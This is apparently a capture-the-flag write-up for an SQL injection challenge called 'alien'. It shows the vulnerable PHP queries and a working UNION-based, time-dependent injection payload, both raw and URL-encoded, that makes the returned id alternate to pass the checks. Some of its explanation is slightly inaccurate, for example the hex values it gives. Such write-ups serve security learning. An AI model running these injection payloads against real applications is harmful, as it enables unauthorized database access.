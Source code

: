 ```yaml
---
custom_edit_url: null
sidebar_position: 32
tags: [SQLi, Self-modification]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d4c56057-01fa-4f0c-8360-441f987427c3)

We are provided with the SQL queries:

```sql
SELECT id FROM prob_alien WHERE no={$_GET[no]}
```

```sql
SELECT id FROM prob_alien WHERE no='{$_GET[no]}'
```

In order to solve this challenge, we have to pass the following checks:

```php
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] !== "admin") exit("sandbox1");
$r = mysqli_fetch_array(mysqli_query($db,$query));
if($r['id'] === "admin") exit("sandbox2");
$r = mysqli_fetch_array(mysqli_query($db,$query2));
if($r['id'] === "admin") exit("sandbox");
$r = mysqli_fetch_array(mysqli_query($db,$query2));   if($r['id'] === "admin") solve("alien");
```

- The first query checks if the fetched `id` is not `"admin"`. If true, it exits.
- The second query checks if the fetched `id` is `"admin"`. If true, it exits.
- The third query checks if the fetched `id` is `"admin"`. If true, it exits.
- The fourth query checks if the fetched `id` is `"admin"`. If true, it calls a function `solve("alien")`.

In order to solve this challenge, we need to create a self-modifying query.


## Self-modifying query

```sql
1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)%23' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

- **`(!sleep(1) && now() % 2 == 1)`**:
	- `!sleep(1)` effectively becomes `False` or `0` since after 1 second, the `sleep` function returns. Otherwise it is `True` or `1`.
	- `now() % 2 == 1` checks if the current time in seconds is an odd number.
	- Combine these using the `&&` (logical AND), which evaluates to `False` or `0` if `!sleep(1)` is `0`. Otherwise it results in `True` or `1`.
- **`hex(10+(!sleep(1)&&now()%2=1))`**:
	- If result of `sleep` is `1`, `hex(10+1)` results in `b`.
	- If result of `sleep` is `0`, `hex(10+0)` results in `a`.
- **`lower(hex(10+(!sleep(1)&&now()%2=1)))`**:
	- Converts the entire string to lowercase.
- **`concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)`**
	- Concatenates the string to `dmin`.
	- If result of `sleep` is `1`, `concat(0x11,0x646d696e)` results in `bdmin`.
	- If result of `sleep` is `0`, `concat(0x10,0x646d696e)` results in `admin`.

If we provide the following URI parameter:

```
?no=1%20UNION%20SELECT%20concat(lower(hex(10%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%27%20UNION%20SELECT%20concat(lower(hex(9%2b(!sleep(1)%26%26now()%2=1))),%200x646d696e)%23%20
```

The resultant first query becomes:

```sql
SELECT id FROM prob_alien WHERE no=1 UNION SELECT concat(lower(hex(10+(!sleep(1)&&now()%2=1))),0x646d696e)#' UNION SELECT concat(lower(hex(9+(!sleep(1)&&now()%2=1))), 0x646d696e)%23
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ae221b2c-088e-40c2-9bf4-72d563eb8e9c)
